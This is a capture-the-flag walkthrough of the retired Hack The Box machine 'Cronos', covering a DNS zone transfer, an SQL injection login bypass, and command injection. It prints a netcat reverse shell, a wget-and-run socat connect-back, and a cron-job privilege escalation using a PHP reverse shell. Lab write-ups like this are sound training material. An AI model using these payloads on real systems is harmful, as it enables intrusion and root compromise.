




hackthebox Cronos
Released: 22nd March 2017 / Pwned: September 19th 2019 - [+] Solved whilst Retired

Cronos first has you perform a DNS zone transfer against the box to find a hidden admin subdirectory. You then use a simple SQL injection string to get into the admin panel, and get a shell by exploiting the traceroute functionality using command injection. To elevate to root, you exploit a cron job which is running a writable file as root.
1) Nmap
Find open TCP ports - nmap -p- -T4 -oN nmap/tcp-allports.txt 10.10.10.13
In-depth scan open TCP ports - nmap -p 22,53,80 -T4 -sV -sC -O -oN nmap/tcp-openports.txt 10.10.10.13
-T4 aggressive scan
-sV service enumeration
-sC default scripts
-O OS detection
-oN default output
Results:
root@gotham:~/ctf/cronos# nmap -p- -T4 -oN nmap/tcp-allports.txt 10.10.10.13
[...]
PORT STATE SERVICE
22/tcp open ssh
53/tcp open domain
80/tcp open http
root@gotham:~/ctf/cronos# nmap -p 22,53,80 -T4 -sV -sC -O -oN nmap/tcp-openports.txt 10.10.10.13
[...]
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 18:b9:73:82:6f:26:c7:78:8f:1b:39:88:d8:02:ce:e8 (RSA)
| 256 1a:e6:06:a6:05:0b:bb:41:92:b0:28:bf:7f:e5:96:3b (ECDSA)
|_ 256 1a:0e:e7:ba:00:cc:02:01:04:cd:a3:a9:3f:5e:22:20 (ED25519)
53/tcp open domain ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid:
|_ bind.version: 9.10.3-P4-Ubuntu
80/tcp open http Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Analysis of open ports:
• 22/ssh - Nothing to do with ssh for the time being, but useful to know
• 53/dns - DNS is running, which makes me think we should perform a zone transfer to find subdomains
• 80/http - A webserver, which most likely has a subdomain(s)
2) 53/dns - DNS Zone Transfer
A DNS zone transfer will reveal if there are any subdomains on the web server.
To run a zone transfer, you need to specify the domain name to query and the DNS server's address.
host -l <domain name> <dns server address>
This means you need to set a domain name for the website running on http://10.10.10.13.
hackthebox box domain names often follow the format <box name>.htb
2a) Configure /etc/hosts
Configure your /etc/hosts file so that 10.10.10.13 points to cronos.htb
root@gotham:~/ctf/cronos# nano /etc/hosts
[...]
10.10.10.13 cronos.htb
2b) Run DNS Zone Transfer
Now you can perform a DNS zone transfer using host.
root@gotham:~/ctf/cronos# host -l cronos.htb 10.10.10.13
Using domain server:
Name: 10.10.10.13
Address: 10.10.10.13#53
Aliases:
cronos.htb name server ns1.cronos.htb.
cronos.htb has address 10.10.10.13
admin.cronos.htb has address 10.10.10.13
ns1.cronos.htb has address 10.10.10.13
www.cronos.htb has address 10.10.10.13
It appears the web server has a subdomain - admin.cronos.htb
Add this subdomain to your /etc/hosts file so that you can access it (if you get Burp errors, just disable burp)
root@gotham:~/ctf/cronos# nano /etc/hosts
[...]
10.10.10.13 cronos.htb
10.10.10.13 admin.cronos.htb
3) admin.cronos.htb
Visit http://admin.cronos.htb and you'll be greeted to a login panel.

After visiting http://10.10.10.13, http://cronos.htb, and http://admin.cronos.htb, gobuster'ing each of them, general reconnaissance etc. there wasn't anything to be found. The only thought I had left was to try SQL injection at the login form, which worked.
3a) SQL Injection
Here are my basic SQL injection tests:
' OR '1
' OR '1'='1
' OR 1 -- -
" OR "" = "
" OR 1 = 1 -- -
'='
'LIKE'
'=0--+
This one worked - ' OR 1 -- -
Log in to the admin panel using:
username: ' OR 1 -- -
password: ' OR 1 -- - (can be anything, actually)
Gain Access
3b) Command Injection
We can run system commands - traceroute and ping.

This form is vulnerable to command injection.
; allows you to input multiple bash commands on one line.
This means we can inject shell commands at this form e.g.

With this, we can get a shell on the system.
Start a listener on your attacking machine
root@gotham:~/ctf/cronos# nc -lvnp 9001
listening on [any] 9001 ...
netcat is installed on the target, but -e is disabled.
This can be circumvented with piped shell.
Send a reverse shell to your attacking system on the Net Tool v0.1 with
; mkfifo /tmp/f ; nc 10.10.14.15 9001 < /tmp/f | /bin/sh > /tmp/f 2> /tmp/f ; rm /tmp/f
And you should get a shell on your listener
listening on [any] 9001 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.10.13] 52302
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
3c) socat - Elevate to interactive shell
I eleveated to an interactive shell using socat.
socat is basically netcat on steroids.
You'll have a full interactive shell with tab-completion, arrow keys, nano support etc.
socat isn't available on Cronos, but you can download a precompiled socat binary from here - https://github.com/andrew-d/static-binaries/tree/master/binaries/linux - and serve it to the target from you attacking machine.
Download 64bit precomipled socat binary to your attacking machine and serve it using python -m SimpleHTTPServer
root@gotham:~/ctf/cronos# wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat
root@gotham:~/ctf/cronos# python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
Start a listener on your attacking machine
root@gotham:~/ctf/cronos# socat file:`tty`,raw,echo=0 tcp-listen:9002
Now you want to run socat on the target.
This one-liner will download socat to the target from your attacking machine into /tmp, make it executable, and connect back to your listener
wget -q http://10.10.14.15:8000/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.14.15:9002
Check your socat listener, and you should have a shell.
root@gotham:~/ctf/cronos# socat file:`tty`,raw,echo=0 tcp-listen:9002
www-data@cronos:/var/www/admin$
Go grab user.txt from noulis's home directory.
www-data@cronos:/var/www/admin$ ls -alh /home/*/*
-r--r--r-- 1 noulis noulis 33 Mar 22 2017 /home/noulis/user.txt
www-data@cronos:/var/www/admin$ cat /home/noulis/user.txt
51d236438...
Priv-Esc
MySQL credentials are available in /var/www/admin/config.php
admin's MD5 hashed password in MySQL is 4f5fffa7b2340178a716e3832451e058 = 1327663704
Composer keys owned by root are available in /home/noulis/.composer
But none of this stuff is useful :(
4) cronjobs
Check for system wide cron jobs by reading /etc/crontab
www-data@cronos:/var/www/admin$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.
SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
# m h dom mon dow user command
17 * * * * root cd / && run-parts --report /etc/cron.hourly
25 6 * * * root test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6 * * 7 root test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6 1 * * root test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
* * * * * root php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1
#
root php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1 looks interesting.
The job runs /var/www/laravel/artisan as root.
We're currently running as user www-data.
We most likely have write access to artisan considering it's in /var/www
Double-check if we have write permissions for /var/www/laravel/artisan
www-data@cronos:/var/www/laravel$ ls -l /var/www/laravel/artisan
-rw-r--r-- 1 www-data www-data 3479 Sep 19 15:14 /var/www/laravel/artisan
We do!
We have write permissions on a file that a cron job runs as root, which means that we effectively have root code execution.
5) Root shell by modifying artisan
Copy pentest-monkey's php-reverse-shell to your current directory.
Write #!/usr/bin/env php to the top of the file (like the artisan script has) and modify the IP and port variables so that the script will connect back to you. Rename the script to artisan.
root@gotham:~/ctf/cronos# cp /usr/share/webshells/php/php-reverse-shell.php .
root@gotham:~/ctf/cronos# mv php-reverse-shell.php monkey.php
root@gotham:~/ctf/cronos# nano monkey.php
#!/usr/bin/env php
<?php
[..]
set_time_limit (0);
$VERSION = "1.0";
$ip = '10.10.14.15'; // CHANGE THIS
$port = 9003; // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
[...]
root@gotham:~/ctf/cronos# cp monkey.php artisan
Serve the script to Cronos using python -m SimpleHTTPServer
root@gotham:~/ctf/cronos# python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
And start a listener on your attacking machine to receive the shell.
root@gotham:~/ctf/cronos# nc -lvnp 9003
listening on [any] 9003 ...
Back on Cronos, make a backup of artisan - artisan.bkup - and download your modified artisan script (your reverse shell) to the target.
www-data@cronos:/var/www/laravel$ mv artisan artisan.bkup
www-data@cronos:/var/www/laravel$ wget http://10.10.14.15:8000/artisan
[...]
www-data@cronos:/var/www/laravel$ head artisan
#!/usr/bin/env php
<?php
set_time_limit (0);
$VERSION = "1.0";
$ip = '10.10.14.15'; // CHANGE THIS
$port = 9003; // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
A cron job will run your modified artisan script.
Watch your listener, wait a few minutes, and you should receive a root shell.
listening on [any] 9003 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.10.13] 43280
Linux cronos 4.4.0-72-generic #93-Ubuntu SMP Fri Mar 31 14:07:41 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
15:15:01 up 2:27, 0 users, load average: 0.00, 0.00, 0.00
USER TTY FROM LOGIN@ IDLE JCPU PCPU WHAT
uid=0(root) gid=0(root) groups=0(root)
/bin/sh: 0: can't access tty; job control turned off
# cat /root/root.txt
1703b8a3c...